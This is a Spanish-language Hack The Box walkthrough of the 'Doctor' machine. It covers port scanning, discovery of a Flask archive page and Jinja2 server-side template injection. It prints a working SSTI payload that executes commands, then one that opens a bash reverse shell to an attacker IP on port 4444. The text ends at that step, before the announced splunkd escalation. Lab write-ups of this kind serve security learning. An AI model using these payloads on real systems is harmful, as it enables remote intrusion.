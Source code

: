 ```yaml
---
layout: single
title: Doctor - Hack The Box
excerpt: "Una máquina muy interesante, en la cual nos aprovechamos de una vulnerabilidad llamada *Server Side Template Injection* para la intrusión inicial, y de una mala configuración en splunkd para la escalada de privilegios."
date: 2021-02-07
classes: wide
header:
  teaser: /assets/images/Doctor-Hackthebox/doctor-hackthebox.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Sqli
  - Web Exploiting
  - Privilege Escalation
  - Python
  - Pentesting
---
```



![](/assets/images/Doctor-Hackthebox/doctor-hackthebox.png)

Una máquina muy interesante, en la cual nos aprovechamos de una vulnerabilidad llamada Server Side Template Injection para la intrusión inicial, y de una mala configuración en splunkd para la escalada de privilegios.

## Escaneo de puertos

Empezamos haciendo un escaneo de puertos con nmap. Vemos que están abiertos los puertos 22, 80 y 8089 que corresponden a los servicios SSH, Apache y Splunkd respectívamente.

![](/assets/images/Doctor-Hackthebox/nmap-doctor.png)

Accedo a la página web a través de la ip.

![](/assets/images/Doctor-Hackthebox/doctor-home.png)

VIendo la página principal veo que hay una dirección de email info@doctors.htb, así que añado doctors.htb a mi fichero hosts para que resuelva el dominio y obtengo un panel login.

![](/assets/images/Doctor-Hackthebox/doctor-login.png)

Me registro en la página y veo que se pueden postear mensajes, y además en el código fuente de la página el desarrollador ha dejado un comentario que dice que la página archive está en fase beta.

![](/assets/images/Doctor-Hackthebox/doctor-beta.png)

Viendo la página http://doctors.htb/archive aparece en blanco, pero en el código fuente se ve que recoge como parámetro lo que se ponga en el título del mensaje que se postea.
Con wappalizer veo que la web utiliza el lenguaje python y la tecnología flask.
Busco información acerca de como explotar flask y encuentro lo siguiente:

[https://www.exploit-db.com/exploits/46386](https://www.exploit-db.com/exploits/46386)<br>
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)<br>
[https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.co.uk/blog/server-side-template-injection-with-jinja2/)<br>

Parece ser que se puede explotar una vulnerabilidad llamada `Server Side Template Injection`.
Éstos links ayudan a entender la vulnerabilidad, y en el último link veo que se pueden ejecutar comandos con ésta inyección:
```python
\{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}\}
```
Creo un mensaje que contenga la inyección en el título

![](/assets/images/Doctor-Hackthebox/doctor-inyeccion.png)

Y accedo a la página archive, y en el código fuente aparece lo siguiente:

![](/assets/images/Doctor-Hackthebox/doctor-comandos.png)

Tengo ejecución de comandos!
Cambio el título y pongo lo siguiente para la reverse shell:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.15.94/4444 0>&1'").read()}}
```
